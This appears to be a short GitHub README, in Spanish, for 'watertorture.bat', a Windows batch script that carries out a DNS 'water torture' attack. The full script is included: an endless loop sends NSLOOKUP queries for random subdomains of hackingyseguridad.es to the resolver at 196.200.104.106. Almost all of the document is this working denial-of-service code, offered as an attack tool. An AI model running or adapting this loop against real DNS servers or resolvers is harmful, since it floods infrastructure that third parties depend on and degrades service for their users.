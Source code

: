 # watertorture

watertorture.bat ;Water Torture DNS autoritativo con proceso por lotes Bath MS-DOS:
Consultas subdominios aleatorios de un dominio.

@ECHO OFF

ECHO Water Torture DNS autoritativo. (c) hackingyseguridad 2016. Version 1.

:loop

SET/A ran=%random%

NSLOOKUP %ran%.hackingyseguridad.es 196.200.104.106

goto loop

#
# www.hackingyseguridad.com
#

